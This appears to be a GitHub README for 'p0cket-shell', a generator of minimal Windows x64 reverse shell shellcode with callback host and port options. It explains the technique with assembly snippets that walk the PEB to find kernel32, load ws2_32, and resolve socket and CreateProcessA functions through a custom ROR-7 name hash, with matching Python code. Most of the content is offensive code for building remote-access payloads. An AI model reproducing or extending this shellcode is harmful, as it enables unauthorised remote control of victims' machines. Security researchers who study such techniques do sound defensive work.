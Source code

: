 ﻿<div align="center" markdown="1">
   <a href="https://www.warp.dev/windebloat">
      <img alt="Warp sponsorship" width="736" src="https://github.com/SilentisVox/p0cket-shell/blob/master/assets/p0cket-shell.jpg">
   </a>
</div>

# p0cket-shell

p0cket-shell is an implementation of an exceptionally compact reverse shell, engineered to achieve remote access with the smallest possible memory. This is minimalism without compromising functionality. This is the most size-efficient reverse shell available. This is peak shellcode optimization.

```
╭── тишина ∴ ~\source\gits\p0cket-shell
╰─→ .\p0cket-shell.py
            ____       __        __             __         ____
     ____  / __ \_____/ /_____  / /_      _____/ /_  ___  / / /
    / __ \/ / / / ___/ //_/ _ \/ __/_____/ ___/ __ \/ _ \/ / /
   / /_/ / /_/ / /__/ ,< /  __/ /_/_____(__  ) / / /  __/ / /
  / .___/\____/\___/_/|_|\___/\__/     /____/_/ /_/\___/_/_/
 /_/
 Author: SilentisVox
 Github: https://github.com/SilentisVox/p0cket-shell

usage: p0cket-shell.py [-h] --payload {hardcode,resolve} --LHOST LHOST --LPORT LPORT --format
                       {c,powershell,ps1,python,exe,raw} [--output OUTPUT]
```

### Setup
```powershell
git clone https://github.com/SilenitsVox/p0cket-shell
cd p0cket-shell
python p0cket-shell.py
```

### Usage
```powershell
p0cket-shell.py --payload  [hardcode | resolve]
                --LHOST    [callback ip]
                --LPORT    [callback port]
                --format   [c | powershell | python | exe | raw]
               [--output]  example.py
```

## How it works

Standalone reverse shell shellcode must follow a specific process. Fortunately for us, it is very straight forward.

1. Get handle to kernel32.dll
2. Get handle to ws2_32.dll
3. Save functions: WSAStartup, WSASocketA, WSAConnect CreateProcessA
4. Call functions: WSAStartup, WSASocketA, WSAConnect CreateProcessA

###### Grab library handles
```nasm
get_kernel32:
    mov   rax,   gs:[0x60]              ; PEB
    mov   rax,   [rax + 0x18]           ; PEB->Ldr
    mov   rax,   [rax + 0x30]           ; Ldr->InMemoryOrderModuleList
    mov   rax,   [rax]                  ; InMemoryOrderModuleList.Flink (ntdll.dll)
    mov   rax,   [rax]                  ; Flink->Flink (kernel32.dll)
    mov   rbp,   [rax + 0x10]           ; Base Address
```
```nasm 
load_ws2_32:
    push  0x006c6c                      ; '0\ll'
    mov   rax,   0x642e32335f327377     ; 'd.23_2sw'
    push  rax                           ; Push to stack
    mov   rcx,   rsp                    ; Save pointer 'ws2_32.dll' to rcx
    sub   rsp,   0x28                   ; Align stack
    call  r14                           ; Call LoadLibraryA (Base Address stored in rax)
```

Now from here we can grab the functions within the 2 libraries and then use them how we want. We have to remember how each function behaves and remember whats needed for each function.

###### Perform function calls

```c
int WSAStartup(
  WORD                 wVersionRequested,
  LPWSADATA            lpWSAData
);
```

```c
SOCKET WSASocketA(
  int                  af,
  int                  type,
  int                  protocol,
  LPWSAPROTOCOL_INFOA  lpProtocolInfo,
  GROUP                g,
  DWORD                dwFlags
);
```

```c
int WSAConnect(
  SOCKET               s,
  const sockaddr      *name,
  int                  namelen,
  LPWSABUF             lpCallerData,
  LPWSABUF             lpCalleeData,
  LPQOS                lpSQOS,
  LPQOS                lpGQOS
);
```

```c
BOOL CreateProcessA(
  LPCSTR                lpApplicationName,
  LPSTR                 lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL                  bInheritHandles,
  DWORD                 dwCreationFlags,
  LPVOID                lpEnvironment,
  LPCSTR                lpCurrentDirectory,
  LPSTARTUPINFOA        lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
```

### Finding Functions

Now this is the main issue with making tiny shellcode. We want the most reliable/stable, while also providing a very small size. If we do not care for these, we can make very small shellcode.

All we would need to do is have a hardcoded offset from the module base address.

###### Hardcode Offset

```nasm
get_createprocess:
    lea   r15,   [rbp + 0x44F70] ; Hardcode offset from base address
```

If we wish to maintain reliablity and stabilty, we must parse through the desired libraries AddressOfNames, and match it to one we have. The best way to accomplish this would be hashes.

We need a custom mini hash algorithm to make hashes of our desired functions, then we would need to find a function name, hash it, then compare to what we have. If it matches, save the address and return.

### Hashing Algorithm

###### Calculate Hash User Side

```python
def hash(function_name: bytes, rotate_amount: int):
    calculated_hash                     = 0

    for byte in function_name:
        calculated_hash                 = ((calculated_hash >> rotate_amount) | (calculated_hash << (32 - rotate_amount))) & 0xFFFFFFFF
        calculated_hash                 = (calculated_hash + byte) & 0xFFFFFFFF

    return hex(calculated_hash)
```

###### Calculate Hash Machine Side

```nasm
    xor   rax, rax
    xor   rbx, rbx
    cld

hash_loop:
    lodsb
    test  al,    al
    jz    compare_hash
    ror   ebx,   7 ;)
    add   ebx,   eax
    jmp   hash_loop

compare_hash:
    cmp   ebx,   rdx ; Or wherever you have the hash
    jz    hash_found
    jnz   next_function
```